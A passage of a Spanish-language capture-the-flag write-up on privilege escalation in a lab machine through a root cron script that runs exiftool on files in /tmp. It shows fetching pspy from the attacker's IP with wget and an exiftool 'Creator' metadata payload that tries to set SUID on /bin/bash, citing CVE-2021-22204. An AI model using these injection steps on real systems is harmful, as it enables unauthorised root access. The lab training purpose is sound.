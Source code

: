 ```bash
```
Este script hace lo siguiente:
* Revisa todos los archivos del directorio `/tmp`.
* Utiliza la herramienta **exiftool** para leer el campo **"Creator"** de cada archivo.
* Si el **"Creator"** es el **usuario juanita**, entonces, elimina el archivo.

El problema que veo es que no podemos modificar ni ejecutar este script. Además, parece que está hecho para ejecutarse cada cierto tiempo.

Comprobémoslo con la herramienta **pspy**:
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy</a>

Una vez que la descargues en tu máquina, abre un servidor con **Python3** y descárgalo en la máquina víctima con **wget**:
```bash
juanita@emerreuvedoble:~$ wget http://Tu_IP/pspy64
```

Al ejecutarlo y esperar unos minutos, nos muestra lo siguiente:
```bash
juanita@emerreuvedoble:~$ chmod +x pspy64 
juanita@emerreuvedoble:~$ ./pspy64
...
2025/07/08 00:30:33 CMD: UID=0     PID=1      | /sbin/init 
2025/07/08 00:31:01 CMD: UID=0     PID=13265  | /usr/sbin/CRON -f 
2025/07/08 00:31:01 CMD: UID=0     PID=13264  | /usr/sbin/cron -f 
2025/07/08 00:31:01 CMD: UID=0     PID=13266  | /usr/sbin/CRON -f 
2025/07/08 00:31:01 CMD: UID=0     PID=13267  | /usr/sbin/CRON -f 
2025/07/08 00:31:01 CMD: UID=0     PID=13268  | /bin/sh -c bash -c /opt/remove_temp.sh 
2025/07/08 00:31:01 CMD: UID=0     PID=13269  | /bin/sh -c bash -c /root/reset.sh
```
Cada minuto se ejecuta el script **remove_temp.sh** que ya analizamos.

<br>

<h2 id="CRON">Escalando Privilegios Abusando de Tarea CRON e Inyectando Comandos con exiftool</h2>

Existe un blog de **INE Security** que explica el cómo se puede abusar de **exiftool** para inyectar comandos en la metadata de un archivo o imagen:
* <a href="https://ine.com/blog/exiftool-command-injection-cve-2021-22204-exploitation-and-prevention-strategies" target="_blank">ExifTool Command Injection (CVE-2021-22204)</a>

Esto funciona porque hay versiones de **exiftool** vulnerables a inyección de comandos como la **versión 12.24**, donde se le inyectan los comandos utilizando los metadatos de un archivo o imagen. 

El problema es que se necesitan algunas herramientas instaladas en la máquina víctima que no tenemos, pero vamos a tratar de utilizar la misma sintaxis del script para inyectarle comandos.

Primero, creamos un archivo vacío:
```bash
juanita@emerreuvedoble:/tmp$ touch test.jpg
```

Luego, intentamos inyectarle un comando a ese archivo en sus metadatos, usando el campo **"Creator"**:
```bash
juanita@emerreuvedoble:/tmp$ exiftool -Creator='$(chmod u+s /bin/bash)' test.jpg
Error: Format error in file - test.jpg
    0 image files updated
    1 files weren't updated due to errors
```
Parece que no le gusta el formato que usamos.
